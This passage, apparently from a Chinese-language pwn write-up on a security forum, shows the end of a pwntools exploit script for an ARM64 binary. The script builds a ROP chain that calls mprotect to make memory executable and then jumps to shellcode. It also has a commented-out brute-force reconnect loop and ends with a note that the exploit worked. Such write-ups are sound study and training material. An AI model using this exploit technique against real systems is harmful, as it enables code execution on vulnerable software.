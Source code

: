 ```python
    payload += p64(gadget1)#sp-0x8
    payload += p64(0)#sp 填入垃圾数据即可
    payload += p64(gadget2)#sp+0x8 填入执行完gadget1所要返回的地址
    payload += p64(0x0)#sp+0x10 之后会传入x19+1和x20进行比较
    payload += p64(0x1)#sp+0x18 传入x20与x19+1进行比较
    payload += p64(mprotect_addr)#sp+0x20,传入寄存器x3中在执行gadget2的时候跳转执行（已经是在传参完成之后
    payload += p64(0x7)#sp+0x28 函数mprotect的权限代码
    payload += p64(0x1000)#sp+0x30 获得权限的范围
    payload += p64(0)#垃圾数据占位
    payload += p64(shellcode_addr)#最后返回到shellcode去执行

    s(payload)
    itr()

#爆破
'''
i = 0
while 1:
    i += 1
    log.warn(str(i))
    try:
        pwn()
    except Exception:
        p.close()
        if(local == 1):
            p = process(binary)
        else:
            p = remote(ip,port)
        continue
'''

if __name__ == '__main__':
    pwn()
```

运行结果：

奏效！

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-3b1406ae10b51620591c1626f63d333564617325.png)